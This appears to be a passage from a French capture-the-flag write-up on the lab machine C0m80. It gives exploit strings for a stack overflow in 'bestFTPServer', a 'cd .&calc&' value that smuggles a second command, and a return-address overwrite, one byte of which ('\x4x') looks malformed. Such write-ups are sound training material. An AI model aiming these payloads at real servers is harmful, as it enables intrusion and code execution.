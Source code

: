 On commence par faire un test simple en passant la commande suivante :  

```plain
cd .&calc&BBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLL
```

Ce qui nous vaut une redirection de l'exécution sur 0x4C4C4C4C (ce qui correspond à LLLL) : yes !  

Et avec l'exploit suivant :  

```plain
cd .&calc&BBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKK\x1c\x4x\x40\x00
```

on écrase avec succès l'adresse de retour :  

![C0m80 bestFTPServer stack structure after BOF](https://github.com/devl00p/blog/raw/master/images/c0m80/c0m80_post_bof.png)

PWNED!!!  

![C0m80 bestFTPServer stack overflow exploitation](https://github.com/devl00p/blog/raw/master/images/c0m80/c0m80_bof_exploitation.png)
